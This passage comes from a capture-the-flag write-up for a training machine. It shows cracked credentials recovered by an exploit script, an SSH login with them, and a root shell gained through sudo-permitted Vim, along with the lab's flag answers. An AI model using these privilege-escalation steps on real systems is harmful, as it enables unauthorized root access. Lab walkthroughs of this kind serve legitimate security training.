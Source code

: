 - Here is the output:
```python
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

- So, after all that work, we finally have the username/password we are looking for. Let's try to log in via SSH with our found credentials:
```
ssh mitch@target-ip -p 2222
```

- This was successful. Now let's grab the user flag from the `mitch` home directory. 
	- `user.txt` - `G00d j0b, keep up!`
## Privilege Escalation
- Now that we have a foothold on the box, let's look around. We can see that there is another directory in the `/home` directory, and the name of it is `sunbath`. 
- Let's see if `mitch` can run any binaries with sudo permissions without a password. To do this, we can use `sudo -l`. When we do, we get the following output:
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

- It looks like we can use Vim with root permissions. To spawn a privileged shell, we can reference [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#shell) and grab the appropriate syntax. It'll look something like this:
```
sudo vim -c ':!/bin/sh'
```

- And with that, we have become root. All we have to do now is `cat /root/root.txt`.
	- `root.txt` - `W3ll d0n3. You made it!`

## Rabbit Holes
### Exploit Script
- While trying to get the exploit script, I originally downloaded the PoC from [Exploit-DB](https://www.exploit-db.com/). Here is the process I went through trying to troubleshoot it. 

- Now this is where things get a little tricky. I'm using the THM AttackBox, and when I try to run the exploit script, I get a syntax error regarding some `print` statements and their formatting. For example, here is the first error I get:
```python
File "exploit.py", line 25
    print "[+] Specify an url target"
                                    ^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print("[+] Specify an url target")?
```
